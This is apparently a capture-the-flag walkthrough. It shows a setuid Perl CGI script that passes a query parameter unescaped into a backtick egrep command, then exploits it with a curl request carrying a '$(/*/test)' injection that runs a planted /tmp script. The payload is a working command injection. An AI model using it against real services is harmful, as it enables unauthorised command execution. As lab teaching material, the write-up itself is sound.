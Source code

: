 # Level12
## Step by step
### 1. Access the `level12` Home Directory
  ```bash
  > ls -la
  -rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
  ```

---
### 2. Understanding the `level12` Program

The `level12.pl` file contains a Perl script that listens on `localhost:4646` and takes two query strings: `x` and `y`.
  ```bash
  > cat level12.pl 
  #!/usr/bin/env perl
  # localhost:4646
  use CGI qw{param};
  print "Content-type: text/html\n\n";
  
  sub t {
    $nn = $_[1];
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/; 
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    foreach $line (@output) {
        ($f, $s) = split(/:/, $line);
        if($s =~ $nn) {
            return 1;
        }
    }
    return 0;
  }
  
  sub n {
    if($_[0] == 1) {
        print("..");
    } else {
        print(".");
    }    
  }
  
  n(t(param("x"), param("y")));
  ```
This script performs some manipulation and executes a command using egrep to search /tmp/xd

---
### 3. Exploiting the Script

The goal is to execute a command via egrep within this script.
  ```bash
  > cat <<hey >/tmp/TEST
  > #!/bin/bash
  > getflag > /tmp/flag
  > hey

  > chmod +x /tmp/TEST

  > curl localhost:4646?x='$(/*/test)'

  > cat /tmp/flag
  Check flag.Here is your token : XXX
  ```

